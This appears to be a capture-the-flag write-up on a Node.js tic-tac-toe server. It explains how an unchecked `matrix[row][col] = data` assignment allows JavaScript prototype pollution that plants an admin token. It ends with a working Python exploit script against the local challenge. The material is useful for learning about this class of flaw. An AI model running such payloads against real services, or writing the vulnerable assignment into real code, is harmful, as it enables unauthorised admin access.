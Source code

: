 ```javascript

	if (matrix[0][2] === matrix[1][1] && matrix[1][1] === matrix[2][0] && matrix[2][0] === 'X'){
		winner = 1;
	}
	if (matrix[0][2] === matrix[1][1] && matrix[1][1] === matrix[2][0] && matrix[2][0] === 'O'){
		winner = 2;
	}

	if (draw(matrix) && winner === null){
		res.send(JSON.stringify({winner: 0}))
	}
	else if (winner !== null) {
		res.send(JSON.stringify({winner: winner}))
	}
	else {
		res.send(JSON.stringify({winner: -1}))
	}

})
app.listen(3000, () => {
	console.log('app listening on port 3000!')
})
```


The main objective is to pass the condition:
`if(user.admintoken && req.query.querytoken && md5(user.admintoken) === req.query.querytoken)`

However, `user = []` and there is no other operation which will modify the list. It seems impossible to pass this condition......

The most suspicious assignment is the operation of matrix, and we can control row,col and data.

```javascript
matrix[client.row][client.col] = client.data;
```

Ok but this is `matrix` not the `user` list. It has nothing to do with `user` list.

But you know, this is javascript. Everything can happen.

Take a look at [Javascript prototype pollution](https://github.com/HoLyVieR/prototype-pollution-nsec18/). The basic idea is to override/create a new attribute in the prototype. `matrix['__proto__']` is the prototype of javascript list. Leveraging this we can add the `admintoken` attribute to the list:

```javascript
matrix['__proto__']['admintoken'] = "helloworld";
```

The payload:

```python
#!/usr/bin/env python3
import requests
s = requests.session()
# leverage  matrix[row][col] = data
print(s.post('http://127.0.0.1:3000/api', json={'row':'__proto__','col':'admintoken', 'data':'helloworld'}).text)
# md5sum of 'hellworld'                                                                                                                  
print(s.get('http://127.0.0.1:3000/admin', params={"querytoken":"fc5e038d38a57032085441e7fe7010b0"}).text)
```
